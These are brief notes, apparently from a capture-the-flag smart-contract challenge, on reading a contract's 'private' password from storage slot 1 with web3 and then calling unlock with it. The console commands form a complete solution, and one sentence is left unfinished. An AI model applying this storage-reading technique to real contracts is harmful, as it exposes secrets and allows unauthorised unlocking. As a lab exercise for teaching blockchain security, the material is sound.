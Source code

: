 * Storage : await web3.utils.hexToAscii(await web3.eth.getStorageAt('0x67e021593D6a79C57eEF99B8F5CA5031aD2fBed0',1)); will access the slot 1. If several variables can fit a single slot, then there will be.
* In assembly you can access from a contract the storage of this contract, but not others contracts

So in console :
* To see in ascii the pwd : await web3.utils.hexToAscii(await web3.eth.getStorageAt('0x67e021593D6a79C57eEF99B8F5CA5031aD2fBed0',1));
* To solve the pb :
 * let x = await web3.eth.getStorageAt('0x67e021593D6a79C57eEF99B8F5CA5031aD2fBed0',1);
 * await contract.unlock(x);
